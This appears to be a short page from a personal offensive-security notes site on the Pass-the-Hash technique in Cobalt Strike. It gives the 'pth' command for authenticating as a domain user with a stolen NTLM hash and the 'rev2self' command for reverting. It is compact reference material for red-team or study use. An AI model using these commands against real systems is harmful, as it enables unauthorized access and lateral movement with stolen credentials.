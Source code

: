 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Pass_The_Hash
---
```



<span style="font-size: 35px; color:red"><b>Pass The Hash</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>CobaltStrike</b></span>
CobaltStrike has a default <span style="color:red">Pth</span> function:
```powershel
pth <DOMAIN\username> <NTLM_Hash>
```
To go back to the original user:
```powershell
rev2self
```
